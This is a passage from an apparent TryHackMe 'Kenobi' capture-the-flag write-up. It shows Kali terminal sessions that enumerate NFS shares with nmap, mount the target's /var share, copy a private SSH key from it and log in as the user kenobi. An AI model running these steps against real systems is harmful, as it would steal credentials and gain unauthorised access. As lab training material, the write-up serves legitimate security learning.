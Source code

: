 - Enumerate the available disk shares from the rpc bind

```bash
┌──(kali㉿kali)-[~/writeups/thm/kenobi]
└─$ nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.150.127 -oN rpcbind.nmap

[..snip..]
```

- Mount the available share to the machine

```bash
# make a directory to mount the share
┌──(kali㉿kali)-[~/writeups/thm/kenobi]                                                                                                          
└─$ sudo mkdir /mnt/kenobiNFS

# mount the share to the created directory
┌──(kali㉿kali)-[~/writeups/thm/kenobi]                                                                                                          
└─$ sudo mount -t nfs 10.10.150.127:/var /mnt/kenobiNFS/                                                                                         

# list the mounted share
┌──(kali㉿kali)-[~/writeups/thm/kenobi]                                                                                                          
└─$ ls -la /mnt/kenobiNFS/                                                                                                                       
total 56                                                                                                                                         
drwxr-xr-x 14 root root    4096 Sep  4  2019 .                                                                                                   
drwxr-xr-x  4 root root    4096 May  7 02:00 ..
drwxr-xr-x  2 root root    4096 Sep  4  2019 backups
[..snip..]
```

- The copied id_rsa of kenboi can be found in the /tmp directory of the mounted share

```bash
# copy the ssh key from mounted location to pwd
┌──(kali㉿kali)-[~/writeups/thm/kenobi]
└─$ cp /mnt/kenobiNFS/tmp/id_rsa .

# change permission for the file
┌──(kali㉿kali)-[~/writeups/thm/kenobi]
└─$ chmod 600 id_rsa 

# use the private key to login to the machine
┌──(kali㉿kali)-[~/writeups/thm/kenobi]
└─$ ssh -i id_rsa kenobi@10.10.150.127
[..snip..]
# logged into the machine
kenobi@kenobi:~$ whoami;hostname
kenobi
kenobi
```
